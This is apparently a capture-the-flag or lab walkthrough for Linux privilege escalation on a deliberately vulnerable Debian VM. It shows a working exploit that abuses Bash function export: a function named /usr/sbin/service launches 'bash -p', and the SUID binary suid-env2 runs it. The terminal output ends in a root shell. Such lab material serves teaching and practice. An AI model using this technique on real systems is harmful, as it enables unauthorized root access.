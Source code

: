 1. Read and follow along with the above.

`No answer needed`

## SUID / SGID Executables - Abusing Shell Features (#1)

The **/usr/local/bin/suid-env2** executable is identical to **/usr/local/bin/suid-env** except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Verify this with strings:

`strings /usr/local/bin/suid-env2`

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

`/bin/bash --version`

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Run the **suid-env2** executable to gain a root shell:

`/usr/local/bin/suid-env2`

**Remember to exit out of the root shell before continuing!**

1. Read and follow along with the above.

```
user@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
user@debian:~$ /bin/bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
user@debian:~$ function /usr/sbin/service { /bin/bash -p; }
user@debian:~$ export -f /usr/sbin/service
user@debian:~$ /usr/local/bin/suid-env2
root@debian:~# whoami
root
root@debian:~#
```
